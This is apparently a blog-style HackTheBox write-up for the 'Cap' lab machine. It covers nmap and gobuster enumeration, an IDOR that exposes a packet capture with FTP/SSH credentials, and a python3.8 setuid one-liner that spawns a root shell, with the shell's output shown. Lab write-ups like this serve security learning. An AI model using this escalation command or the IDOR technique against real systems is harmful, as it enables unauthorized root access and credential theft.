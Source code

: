 ```yaml
---
title: Cap
published: 2025-08-27
description: ' Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures.'
image: './Cap-Images/logo1.png'
tags: ['Linux','Web','Exploit','Privsec']
category: 'HackTheBox'
draft: false 
---
```


## Enumeration
> - Lets use nmap :
```shell
# Nmap 7.97 scan initiated Wed Aug 27 09:32:30 2025 as: nmap -sCV -A -T4 -o nmap.txt 10.10.10.245
Nmap scan report for 10.10.10.245
Host is up (0.12s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 fa:80:a9:b2:ca:3b:88:69:a4:28:9e:39:0d:27:d5:75 (RSA)
|   256 96:d8:f8:e3:e8:f7:71:36:c5:49:d5:9d:b6:a4:c9:0c (ECDSA)
|_  256 3f:d0:ff:91:eb:3b:f6:e1:9f:2e:8d:de:b3:de:b2:18 (ED25519)
80/tcp open  http    Gunicorn
|_http-server-header: gunicorn
|_http-title: Security Dashboard
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```
> - Now we need to use brute forcing Directory With `Gobuster`:
```shell
❯❯ gobuster dir -u 10.10.10.245 -w /usr/share/Wordlists/dirb/common.txt 
===============================================================
Gobuster v3.7
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.245
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/Wordlists/dirb/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.7
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/data                 (Status: 302) [Size: 208] [--> http://10.10.10.245/]
/ip                   (Status: 200) [Size: 17462]
/netstat              (Status: 200) [Size: 33068]
```

## Exploitation

> - i found folder `data` but i have prblm , i searching for PCAP file that contains sensative data .
> - i try change id data to `0` , This Vuln is `IDOR` .

![data](./Cap-Images/data.jpg)

> - After download File PCAP , i can open this file in `Wireshark` Tool :
![PCAP](./Cap-Images/pcap.jpg)

- Great !! i found a password of `FTP` & `SSH`

## Privilege Escalation

> - Now im runing Tool `linPEAS` , i found a faibless in `/usr/bin/python3.8`
> - So, i put this Malicios Code : `/usr/bin/./python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'`
```shell
nathan@cap:~$ /usr/bin/./python3.8 -c 'import os; os.setuid(0); os.system("/bin/sh")'
# id
uid=0(root) gid=1001(nathan) groups=1001(nathan)
# cd /root
# ls -la
total 36
drwx------  6 root root 4096 Aug 26 22:24 .
drwxr-xr-x 20 root root 4096 Jun  1  2021 ..
lrwxrwxrwx  1 root root    9 May 15  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 May 23  2021 .cache
drwxr-xr-x  3 root root 4096 May 23  2021 .local
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 May 23  2021 .ssh
lrwxrwxrwx  1 root root    9 May 27  2021 .viminfo -> /dev/null
-r--------  1 root root   33 Aug 26 22:24 root.txt
drwxr-xr-x  3 root root 4096 May 23  2021 snap
```